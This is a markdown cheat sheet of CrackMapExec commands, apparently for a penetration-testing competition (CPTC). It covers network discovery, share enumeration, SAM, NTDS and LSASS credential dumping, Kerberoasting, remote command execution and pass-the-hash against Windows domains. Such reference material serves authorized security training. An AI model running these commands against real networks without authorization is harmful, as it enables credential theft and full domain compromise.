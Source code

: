 ## Quick Reference Card

```bash
# Essential CPTC Commands (print this!)

# 1. Network Discovery
crackmapexec smb 10.10.10.0/24

# 2. Credential Validation
crackmapexec smb <target> -u '<user>' -p '<pass>' -d <domain>

# 3. Share Enumeration
crackmapexec smb <target> -u '<user>' -p '<pass>' --shares

# 4. Dump SAM
crackmapexec smb <target> -u '<admin>' -p '<pass>' --sam

# 5. Dump NTDS (Domain Compromise!)
crackmapexec smb <DC> -u '<admin>' -p '<pass>' --ntds

# 6. Credential Dumping from Memory
crackmapexec smb <target> -u '<admin>' -p '<pass>' -M lsassy

# 7. Command Execution
crackmapexec smb <target> -u '<admin>' -p '<pass>' -x 'whoami'

# 8. Kerberoasting
crackmapexec ldap <DC> -u '<user>' -p '<pass>' --kerberoasting kerb.txt

# 9. Find Logged-On Users
crackmapexec smb 10.10.10.0/24 -u '<user>' -p '<pass>' --loggedon-users

# 10. Pass-the-Hash
crackmapexec smb <target> -u '<user>' -H '<NTHASH>'
```
